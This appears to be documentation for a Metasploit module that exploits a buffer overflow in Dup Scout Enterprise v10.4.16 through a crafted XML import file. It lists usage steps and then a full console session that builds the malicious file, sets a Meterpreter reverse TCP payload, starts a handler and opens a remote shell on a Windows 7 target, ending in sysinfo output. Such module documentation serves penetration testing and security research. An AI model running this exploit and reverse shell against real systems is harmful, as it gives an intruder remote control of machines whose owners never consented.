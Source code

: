 This module exploits a buffer overflow in Dup Scout Enterprise v10.4.16 by using the import command option to import a specially crafted xml file.

## Vulnerable Application

This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [www.dupscout.com](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe).

## Verification Steps

1. Start msfconsole
2. Do: `exploit/windows/fileformat/dupscout_xml`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Example
```
msf > use exploit/windows/fileformat/dupscout_xml 
msf exploit(windows/fileformat/dupscout_xml) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/dupscout_xml) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /root/.msf4/local/msf.xml
msf exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler 
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.40.146 
LHOST => 172.16.40.146
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.40.146:4444 
[*] Sending stage (179779 bytes) to 172.16.40.144
[*] Meterpreter session 1 opened (172.16.40.146:4444 -> 172.16.40.144:49790) at 2018-01-24 20:56:56 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
